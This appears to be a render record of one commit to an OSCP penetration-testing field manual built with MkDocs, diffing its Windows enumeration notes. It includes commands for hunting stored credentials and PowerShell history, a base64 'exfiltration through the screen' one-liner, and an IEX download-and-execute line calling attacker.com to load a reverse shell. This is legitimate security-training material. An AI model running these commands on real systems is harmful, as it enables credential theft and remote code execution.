

Before and after one commit to invae/oscp_field_manual, an MkDocs documentation site: the page built from docs/windows/win_enumeration.md, in a window 1280 px wide and 1400 px high, scrolled down 1076 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
namespace amendments; addition of prepared statements for default windows enumeration; exapansion of default enum checklist

````diff
--- a/docs/windows/win_enumeration.md
+++ b/docs/windows/win_enumeration.md
@@ -1,4 +1,4 @@
-# enumeration of windows environments
+# win_enumeration
 
 This page serves as a reference to be used during operations. Included items are:
 
@@ -6,7 +6,11 @@ This page serves as a reference to be used during operations. Included items are
 - prepared statements, ready for copy paste
 - legacy reference notes, useful for writing and for when other methods have been exhausted
 
-## default enumeration activity - noisy, lab use only
+## default enumeration activity
+
+> Noisy,  lab use only. Campaigns should be planned, only necessary commands should touch the target
+
+### checklist
 
 1. `systeminfo`
 	1. we care about the most recent patch and build numbers
@@ -21,7 +25,32 @@ This page serves as a reference to be used during operations. Included items are
 5. manual enumeration
 	1. focus on human activity
 	2. scripts, notes, custom applications
-	3. passwords written where they shoud not be
+	3. passwords written where they should not be
+	4. review the ouput of enumeration scripts, they commonly miss the following
+		1. `cmdkey /list`
+		2. scheduled tasks
+		3. startup apps
+		4. access control permissions on registry services
+		5. Saved credentials in tools such as `PuTTY`
+		6. credentials saved in registry keys
+
+
+### prepared statements
+
+```cmd
+systeminfo
+```
+
+The following should be executed in a powershell context
+
+```powershell
+Get-Content $env:windir\System32\Drivers\etc\hosts
+```
+
+```powershell
+Get-Content $env:appdata\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
+```
+
 
 
 ## powershell
@@ -52,16 +81,27 @@ get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *
 Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
 ```
 
+## exfiltration through the screen
+
+Provided file size is small enough, set a variable `$path = "C:\Path\To\file"` then put the following prepared statement into the shell
+
+```powershell
+$b64 = (Get-Content -Path $path -Encoding byte); [convert]::ToBase64String($b64)
+```
+
+Note that the resulting b64 is in `utf-16le` and should be converted with the `iconv` utility before further usage.
+
+
 ## using common scripts
 
-### Execution without touching disk
+### execution without touching disk
 
 1. host the `script.ps1`
 2. edit the `script.ps1` file to call w.e. function you want by placing the function call, including arguments, at the end of this file. This is often the reverse shell.
 3. use `IEX(new-object net.webClient).downloadString('http://attacker.com/script.ps1')`
 
 
-### Execution with touching disk
+### execution with touching disk
 
 > `PowerUp.ps1` is used as an example
 
--- a/docs/windows/win_facts.md
+++ b/docs/windows/win_facts.md
@@ -1,4 +1,4 @@
-# facts on windows
+# win_facts
 
 sort these as the field manual develops
 
--- a/docs/windows/win_killchain.md
+++ b/docs/windows/win_killchain.md
@@ -1,4 +1,4 @@
-# windows killchain
+# win_killchain
 - identify target is windows
 - identify vuln
 - weaponize the vuln
````
